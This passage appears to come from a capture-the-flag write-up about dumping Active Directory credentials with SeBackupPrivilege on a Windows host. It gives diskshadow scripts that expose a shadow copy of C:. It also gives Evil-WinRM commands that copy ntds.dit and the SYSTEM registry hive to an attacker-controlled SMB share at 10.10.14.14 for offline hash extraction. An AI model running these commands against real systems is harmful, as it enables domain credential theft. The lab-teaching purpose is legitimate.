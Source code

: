   * Make sure the input script file uses Windows line endings. If I write the script file on Kali, I’ll need to use `unix2dos` on it before uploading.
  * Set the metadata path to something writable, or run from a directory I can write to or set the metadata path.
  * Some quick testing shows it is fine to run from outside `system32` despite what the blog post said.

The working script is:

    
    
    set context persistent nowriters
    set metadata c:\programdata\df.cab
    set verbose on
    add volume c: alias df
    create
    expose %df% z:
    

I wrote another to clean up after I’m done:

    
    
    set context persistent nowriters
    set metadata c:\programdata\df.cab
    set verbose on
    delete shadows volume df
    reset
    

### Grab ntds.dit

I’ll start an SMB server locally on my host so that I can copy the `ntds.dit`
file directly there with `smbserver.py s . -smb2support -username df -password
df`. Now I can auth to the share:

    
    
    *Evil-WinRM* PS C:\programdata> net use \\10.10.14.14\s /u:df df
    The command completed successfully.
    

Now, after running the script to expose the shadow copy, I’ll copy `ntds.dit`
to the share:

    
    
    *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.14\s\ntds.dit
    

It takes a minute, but it succeeds.

To get hashes out of this, I’ll also need the keys from the `SYSTEM` registry
file. I’ll save it with `reg`:

    
    
    *Evil-WinRM* PS C:\programdata> reg.exe save hklm\system \\10.10.14.14\system
    

I’ll run my clean up script to close the z: drive.
